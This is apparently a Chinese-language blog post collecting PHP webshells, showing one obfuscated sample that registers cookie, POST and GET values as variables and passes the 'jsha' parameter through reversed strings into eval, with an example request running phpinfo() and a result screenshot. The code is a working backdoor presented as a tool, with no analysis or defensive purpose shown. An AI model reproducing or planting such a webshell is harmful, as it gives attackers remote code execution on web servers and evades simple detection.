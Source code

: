 ```yaml
---
layout: post
title: PHP WebShell [更新至2019-04-04]
tags: [工具]
comments: true
---
```


日常积累，来源自T00ls、先知、应急等。

> ?jsha=phpinfo()


```
<?php
function _strint($key){
        return strrev($key);
}
function log1($log){
        lone(_strint(strrev($log)));
}
function lone($key){
        $str = "";
        return eval($str.$key.$str);
}
foreach (array('_COOKIE','_POST','_GET') as $_request)
{
    foreach ($$_request as $_key=>$_value)
    {
        $$_key=  $_value;
    }
}
$id = isset($jsha) ? $id : 2;
log1($jsha);
?>
```


>效果图


![jsha.php](https://cijian00.github.io/img/shell_share/jsha-php.png)
